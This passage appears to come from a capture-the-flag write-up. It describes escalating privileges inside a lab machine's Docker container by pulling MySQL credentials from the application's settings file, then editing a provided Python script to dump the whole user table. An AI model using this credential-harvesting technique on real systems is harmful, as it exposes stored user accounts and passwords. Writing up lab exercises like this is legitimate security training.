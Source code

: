 We are root but this `hostname` looks like we are inside some docker.

***

## Horizontal Privilege Escalation

In `/opt/app/craft_api/settings.py` I found password for `MYSQL DB`

![](images/db-pass.png)

The problem is that there is no `mysql` on the system. So we'll have to write code for that. But the author have kinda helped us by providing a `dbtest.py` file. All we have to do is edit it a bit.

```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try:
    with connection.cursor() as cursor:
        sql = "SELECT `*` FROM `user`"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```

